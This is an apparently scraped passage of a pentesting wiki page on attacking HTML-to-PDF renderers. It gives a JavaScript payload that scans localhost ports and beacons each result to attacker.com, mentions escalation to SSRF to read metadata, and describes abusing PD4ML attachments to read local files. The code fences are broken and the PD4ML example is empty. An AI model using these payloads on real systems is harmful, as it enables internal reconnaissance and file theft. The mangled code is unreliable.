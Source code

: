 ```
```
```
### Port Scan

```html

<script>
const checkPort = (port) => {
    fetch(`http://localhost:${port}, { mode: "no-cors" }).then(() => {
        let img = document.createElement("img");
        img.src = `http://attacker.com/ping?port=${port};
    });
}

for(let i=0; i<1000; i++) {
    checkPort(i);
}
</script>
![[https://attacker.com/startingScan]]
```
```
### [[../ssrf-server-side-request-forgery/index.html|SSRF]]

This vulnerability can be transformed very easily in a SSRF (as you can make the script load external resources). So just try to exploit it (read some metadata?).

### Attachments: PD4ML

There are some HTML 2 PDF engines that allow to **specify attachments for the PDF**, like **PD4ML**. You can abuse this feature to **attach any local file** to the PDF.\
To open the attachment I opened the file with **Firefox and double clicked the Paperclip symbol** to **store the attachment** as a new file.\
Capturing the **PDF response** with burp should also **show the attachment in cleat text** inside the PDF.

```html
<!-- From https://0xdf.gitlab.io/2021/04/24/htb-bucket.html -->
<html>
  
</html>
```
```
## References

- [[https://lbherrera.github.io/lab/h1415-ctf-writeup.html|https://lbherrera.github.io/lab/h1415-ctf-writeup.html]]
- [[https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/|https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/]]
- [[https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html|https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html]]
- [[https://infosecwriteups.com/breaking-down-ssrf-on-pdf-generation-a-pentesting-guide-66f8a309bf3c|https://infosecwriteups.com/breaking-down-ssrf-on-pdf-generation-a-pentesting-guide-66f8a309bf3c]]
- [[https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-pdf-generators-a-complete-guide-to-finding-ssrf-vulnerabilities-in-pdf-generators|https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-pdf-generators-a-complete-guide-to-finding-ssrf-vulnerabilities-in-pdf-generators]]



